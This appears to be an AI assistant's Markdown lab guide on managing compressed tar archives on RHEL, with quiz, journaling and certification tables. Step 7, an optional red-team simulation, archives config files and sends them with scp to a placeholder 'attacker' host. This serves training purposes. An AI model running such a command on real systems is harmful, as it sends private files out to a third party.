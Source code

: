Absolutely, Shahid. Here's the **Markdown-formatted Cybersecurity Master Grade Edition** documentation for:

# 🧪 **Guided Exercise: Manage Compressed `tar` Archives**

*Module 13 – Archive and Transfer Files*
*Format: Cybersecurity Documentation Protocol Ultra v5.0*

---

## 🔰 Introduction

This guided exercise reinforces your practical understanding of managing compressed `tar` archives using hands-on, **step-by-step instructions on a RHEL system**. It simulates real-world use cases such as:

* Archiving and compressing logs or configurations
* Extracting backups
* Validating archive contents
* Incorporating automation with shell scripting

> 🎯 **Objective**: Master `tar` syntax, understand compression types, simulate backup workflows, and apply red/blue team thinking in a real RHEL environment.

---

## 🧠 Core Concepts Recap

Before we dive into commands, recall:

| Flag | Meaning                             |
| ---- | ----------------------------------- |
| `-c` | Create archive                      |
| `-x` | Extract archive                     |
| `-t` | List archive contents               |
| `-z` | Use gzip compression                |
| `-j` | Use bzip2 compression               |
| `-J` | Use xz compression                  |
| `-v` | Verbose (see files being processed) |
| `-f` | Use archive filename                |

---

## 🧪 Guided Lab Tasks (Step-by-Step)

> 🧰 All commands tested on **RHEL 9**. You can run these in a VM or on a lab machine.

---

### 🔹 **Step 1: Prepare the Test Directory**

```bash
mkdir -p ~/archive_lab/logs ~/archive_lab/configs
echo "Log entry 1" > ~/archive_lab/logs/log1.txt
echo "server=192.168.1.10" > ~/archive_lab/configs/web.conf
```

✅ **Expected Result**:
Directory structure created with test files.

---

### 🔹 **Step 2: Create a `.tar.gz` Archive**

```bash
tar -czvf archive_lab.tar.gz ~/archive_lab
```

✅ **Expected Output**:

```plaintext
~/archive_lab/
~/archive_lab/logs/
~/archive_lab/logs/log1.txt
~/archive_lab/configs/
~/archive_lab/configs/web.conf
```

---

### 🔹 **Step 3: List Archive Contents**

```bash
tar -tzvf archive_lab.tar.gz
```

✅ **Expected Output**: Lists file structure inside the archive.

---

### 🔹 **Step 4: Extract Archive to a New Location**

```bash
mkdir ~/extracted_lab
tar -xzvf archive_lab.tar.gz -C ~/extracted_lab/
```

✅ **Check**:

```bash
ls ~/extracted_lab/archive_lab
```

---

### 🔹 **Step 5: Create a `.tar.bz2` and `.tar.xz`**

```bash
tar -cjvf archive_bz2.tar.bz2 ~/archive_lab
tar -cJvf archive_xz.tar.xz ~/archive_lab
```

✅ **Compare File Sizes**:

```bash
ls -lh archive_*.tar.*
```

Observe which compression yields smallest file size.

---

### 🔹 **Step 6: Automate Backup with a Script**

```bash
nano ~/archive_lab/backup.sh
```

```bash
#!/bin/bash
DATE=$(date +%F)
tar -czf ~/backup-$DATE.tar.gz ~/archive_lab
```

Make it executable:

```bash
chmod +x ~/archive_lab/backup.sh
```

---

### 🔹 **Step 7: (Optional) Exfiltration Simulation (Red Team)**

```bash
tar -czf secrets.tar.gz ~/archive_lab/configs
scp secrets.tar.gz attacker@192.168.1.100:/tmp/
```

🔴 *MITRE T1560.001 - Archive Collected Data*

---

## 🛡 Red/Blue Team Reflection

| Team    | Action                   | MITRE Mapping         | Defense Idea               |
| ------- | ------------------------ | --------------------- | -------------------------- |
| 🔴 Red  | Archive + SCP            | T1560.001 + T1048.002 | Limit `scp`, Monitor `tar` |
| 🔵 Blue | Audit `tar`, Monitor SCP | Auditd + Logs         | File integrity + alerts    |

---

## 🧠 Quiz Check (Mini)

1. What’s the purpose of `-z` in `tar`?
2. How do you extract a `.tar.bz2` archive?
3. Why might `tar -tzvf` be useful in forensics?

---

## 📓 Journaling

* ✅ *Did you complete the full exercise?* Yes / No
* 🧠 *What did you learn or struggle with?*
  `_______________________________________`
* 🔁 *Which flag(s) did you forget and need to revise?*
  `_______________________________________`
* 💡 *Confidence Level (1–5)*: `__`

---

## 📌 Summary Table

| Task                  | Command                             |
| --------------------- | ----------------------------------- |
| Create gzip archive   | `tar -czvf archive.tar.gz dir/`     |
| List archive contents | `tar -tzvf archive.tar.gz`          |
| Extract gzip archive  | `tar -xzvf archive.tar.gz -C path/` |
| Compress with bzip2   | `tar -cjvf archive.tar.bz2 dir/`    |
| Compress with xz      | `tar -cJvf archive.tar.xz dir/`     |
| Scripted archive      | Bash script using `tar -czf`        |

---

## 🧭 Job & Cert Mapping

| Role              | Skill Applied                      | Cert          |
| ----------------- | ---------------------------------- | ------------- |
| SOC Analyst       | Detect `.tar.gz` usage in logs     | CompTIA+, CEH |
| Sysadmin          | Automate backups with `tar`        | RHCSA         |
| Forensics Analyst | Inspect `.tar.gz` in incidents     | GCFA          |
| Pentester         | Exfiltration simulation with `tar` | OSCP          |

---

## 🧠 Spaced Repetition Plan

* **Day 1**: Re-do lab steps manually
* **Day 3**: Script automation + cron job
* **Day 7**: Red team + blue team simulation (SCP, detection)
* **Day 30**: Teach a peer or write a blog/tutorial

---

✅ **Completed Guided Exercise: Manage Compressed tar Archives**

Let me know the **next lesson** in Module 13 you'd like me to document!

